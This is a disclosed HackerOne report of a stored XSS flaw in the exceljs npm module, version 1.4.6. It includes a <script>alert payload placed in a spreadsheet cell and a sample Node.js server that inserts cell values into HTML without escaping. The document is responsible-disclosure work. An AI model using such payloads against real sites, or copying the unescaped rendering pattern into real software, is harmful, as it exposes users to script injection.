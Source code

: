 # [exceljs] Possible XSS via cell value when worksheet is displayed in browser

## Report Details
- **Report ID**: 356809
- **URL**: https://hackerone.com/reports/356809
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-05-24T13:39:32.401Z
- **Disclosed**: 2018-09-01T19:54:41.794Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Team,

I would like to report Stored XSS vulnerability in exceljs module.
It allows to execute JavaScript code embeded in the XLS sheet when data from the sheet are displayed in the browser.

## Module
module name: exceljs
version: 1.4.6
npm page: https://www.npmjs.com/package/exceljs

### Module Description

Read, manipulate and write spreadsheet data and styles to XLSX and JSON.

Reverse engineered from Excel spreadsheet files as a project.

### Module Stats
~18k weekly downloads (estimated ~72k monthly downloads)

## Vulnerability

### Vulnerability Description
```exceljs``` does not validate data from parsed XLSX file and allows to embed HTML tags, like ```<script>```, directly in the sheet cells. Because of that, I was able to craft malicious JavaScript code and execute it when data from the sheet were displayed in the browser. 

### Steps To Reproduce:

- install exceljs

```
$ npm i exceljs
```

- create sample XLSX file (I've used LibreOffice 5.1.6.2 for Ubuntu) with the sample data. For one of the cell use the following payload:

```
<script>alert(`xss!`)</script>
```

- save the file as testsheet.xlsx


- create sample aplication, which reads,parse and prepare HTML with content of sample XLSX file and save it as app.js:

```javascript
'use strict'
/*global console*/
const Excel = require('exceljs')
const http = require('http')
const port = 8080

const workbook = new Excel.Workbook()
const filename = 'testsheet.xlsx'

function createHTML(worksheet) {
    let __html = `
    <table>
        <tr>
            <td>${worksheet.getCell('A1').value}</td>
            <td>${worksheet.getCell('A2').value}</td>
            <td>${worksheet.getCell('A3').value}</td>
        </tr>
        <tr>
            <td>${worksheet.getCell('B1').value}</td>
            <td>${worksheet.getCell('B2').value}</td>
            <td>${worksheet.getCell('B3').value}</td>
        </tr>
    </table>
    `

    return __html
}

const requestHandler = (request, response) => {
    workbook.xlsx.readFile(filename)
        .then(worksheets => {
            worksheets.eachSheet(function(worksheet, sheetId) {
                response.writeHeader(200, {
                    "Content-Type": "text/html"
                })
                response.write(createHTML(worksheet))
                response.end()
            });
        });
}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
    if (err) {
        return console.log(err)
    }
    console.log(`server is listening on ${port}`)
})
```

- run the app

```
$ node app.js
```

- open http://localhost:8080 in the browser


- you will notcie an alert pops up and malicious JavaScript is embeded in page source:

```
    <table>
        <tbody><tr>
            <td><script>alert(`xss!`)</script></td>
            <td>test</td>
            <td>another</td>
        </tr>
        <tr>
            <td>1</td>
            <td>2</td>
            <td>3</td>
        </tr>
    </tbody></table>
```


## Patch

I am aware that due to XLSX files complexity, an implementation of escaping HTML special characters does not resolve the problem here (because ```<```, ```>``` or ```/``` can be used in any other context in XLSX file).

Probably this can be resolved by some kind of escape-on-demand data validation function passed as an optional argument to ```worksheet.getCell()``` function if no special characters are expected in returned value. Blacklisting of ```<script``` or similar well known string also might be an option, but this won't never block attacker in 100% from bypassing such protection.


## Supporting Material/References:

- Ubuntu 16.10
- Node 8.11.1
- npm v.6.0.1
- Chromium 67.0.3388.0 (Developer Build) (64-bit)
- LibreOffice Version: 5.1.6.2 Build ID: 1:5.1.6~rc2-0ubuntu1~xenial3

## Wrap up

I contacted the maintainer to let them know: [N]
I opened an issue in the related repository: [N]

Regards,

Rafal 'bl4de' Janicki

## Impact

If application displays content of the processed XLSX file in the browser, an attacker is able to craft malicious JavaScript payload which will be executed in context of user's browser

## Attachments
No attachments
